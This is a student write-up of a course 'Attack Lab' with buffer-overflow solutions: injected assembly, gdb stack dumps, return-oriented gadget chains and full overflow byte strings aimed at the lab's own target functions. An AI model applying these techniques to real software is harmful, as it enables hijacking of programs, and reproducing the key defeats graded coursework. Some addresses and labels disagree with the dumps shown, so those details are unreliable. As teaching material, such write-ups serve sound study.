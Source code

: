 # Attack Lab
## Phase 1:
No new code is injected. Overflow the buffer to redirect execution into `touch1()`.

## Phase 2:
Redirect execution into injected in the buffer, to modify argument (%rdi) to cookie:
```
movq $0x59b997fa, %rdi
```
Also, PUSH address of `touch2()` into stack (which also decrements %esp):
```
push $0x004017ec        # Address of touch2()
```
After executing RET, `touch2()` is executed.

## Phase 3:
Phase 3 is similar to phase 2, except that additional space is needed in stack to store cookie in ASCII. The stack before executing `getbuf()` has the following layout:
```
(gdb) x /20w 0x5561dc78
0x5561dc78:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x55586000	0x00000000	0x00401976	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
```
The stack after executing `getbuf()` has the following layout:
```
(gdb) x /20w 0x5561dc78
0x5561dc78:	0x60dcb8bf	0x2534ff55	0x004018fa	0x000000c3
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x00000000	0x00000000	0x5561dc78	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x39623935	0x61663739	0xf4f4f400	0xf4f4f4f4
```
Where:
* 0x5561dc78 - 0x5561dc9f is the `getbuf()` buffer, which will be injected with instructions:
    ```
    movq $0x5561dcb8, %rdi
    push $0x4018fa          # Address of touch3()
    ret
    ```
* 0x5561dca0 - 0x5561dca7 will be overflowed with address of 0x5561dc88 (to redirect the execution into injected after hitting RET of `getbuf()`
* 0x5561dcb8 - 0x5561dcbf is empty, in which we fill in the cookie in ASCII.
* Others: Should not be modified.  

Overflow the buffer as described above.  

## Phase 4:
Found the following pattern matching desired instructions:
* Overflow the buffer with cookie ASCII, then save it in %rax:
    ```
    00000000004019a7 <addval_219>:
    4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
    4019ad:   c3                      retq    
    ```
    In which we have
    ```
    58          pop %rax
    90          no-op
    c3          retq
    ```
* Move cookie from %rax to %rdi:
    ```
    00000000004019c3 <setval_426>:
    4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
    4019c9:   c3                      retq
    ```
    In which we have
    ```
    48 89 c7    movq %rax, %rdi
    90          no-op
    c3          retq
    ```
So, we can overflow the buffer with:
```
00 00 00 00 00 00 00 00     # Padding
00 00 00 00 00 00 00 00     # Padding
00 00 00 00 00 00 00 00     # Padding
00 00 00 00 00 00 00 00     # Padding
00 00 00 00 00 00 00 00     # Padding
ab 19 40 00 00 00 00 00     # Address of 1st gadget
fa 97 b9 59 00 00 00 00     # Cookie in ASCII
c5 19 40 00 00 00 00 00     # Address of 2nd gadget
ec 17 40 00 00 00 00 00     # Address of touch2()
```

## Phase 5:
The cookie can be injected into stack by overflowing the buffer. However, since the stack initializes randomly, we have to use either `lea` or `movq %rsp, %xxx` to get the cookie address.  
* Locating the stack:
    ```
    0000000000401a03 <addval_190>:
    401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
    401a09:	c3  
    ```
    In which we have
    ```
    48 89 e0  movq %rsp, %rax
    c3        ret
    ```
* Because no `popq` instructions exists, we put the cookie string somewhere near the bottom of the stack, away from the gadgets:
    ```
    00000000004019d6 <add_xy>:
    4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
    4019da:	c3                   	retq   
    ```
    In which we have
    ```
    04 37     add $0x37, %al
    c3        ret
    ```
* Move cookie address from %rax to %rdi:
    ```
    00000000004019c3 <setval_426>:
    4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
    4019c9:	c3                   	retq
    ```
    In which we have
    ```
    48 89 c7  movq %rax, %rdi
    90        nop
    c3        retq
    ```
Overflow the buffer with:
```
00 00 00 00 00 00 00 00     # Padding
00 00 00 00 00 00 00 00     # Padding
00 00 00 00 00 00 00 00     # Padding
00 00 00 00 00 00 00 00     # Padding
00 00 00 00 00 00 00 00     # Padding
06 1a 40 00 00 00 00 00     # Address of the 1st gadget
d8 19 40 00 00 00 00 00     # Address of the 2nd gadget
c5 19 40 00 00 00 00 00     # Address of the 3rd gadget
fa 18 40 00 00 00 00 00     # Address of touch3()
dd dd dd dd dd dd dd dd     # Padding
dd dd dd dd dd dd dd dd     # Padding
dd dd dd dd dd dd dd dd     # Padding
dd dd dd dd dd dd dd        # Padding (0x37(55)-24=31 in total)
35 39 62 39 39 37 66 61     # Cookie in ASCII
```
